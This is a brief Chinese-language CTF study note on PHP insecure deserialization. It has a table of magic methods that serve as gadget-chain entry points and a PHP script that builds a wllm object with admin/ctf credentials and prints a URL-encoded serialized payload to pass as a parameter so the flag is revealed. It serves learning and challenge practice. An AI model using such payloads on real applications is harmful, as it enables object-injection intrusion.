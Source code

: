 # ❗ 最后给你一份必杀表：常见魔术方法触发点



| 魔术方法     | 触发时机       | 常见链子起点                        |
| ------------ | -------------- | ----------------------------------- |
| `__destruct` | 对象销毁       | 90%题目都用                         |
| `__wakeup`   | unserialize后  | 有些题特意用 wakeup                 |
| `__toString` | 对象当字符串用 | 结合 include()、file_put_contents() |
| `__call`     | 调用未定义方法 | 适合接连其他类                      |
| `__invoke`   | 对象当函数用   | 少见但强                            |



------

#  代码参考

```php
<?php

// 1. 创建一个实例
class wllm
{
    public $admin;
    public $passwd;

    public function concat($admin, $passwd)
    {
        $this->admin = $admin;
        $this->passwd = $passwd;
        return $admin + $this->passwd;
    }

    public function __construct()
    {
        $this->admin = "user";
        $this->passwd = "123456";
    }

    public function __destruct()
    {
        if ($this->admin === "admin" && $this->passwd === "ctf") {
            include("flag.php");
            echo $flag;
        } else {
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

// 2. 创建对象并赋值
$exp = new wllm();
$exp->admin = "admin";   // 赋值
$exp->passwd = "ctf";    // 赋值
// 3. 序列化并 URL 编码（直接拿去传参）
echo urlencode(serialize($exp));

#-------------------------------------------------------------------------
```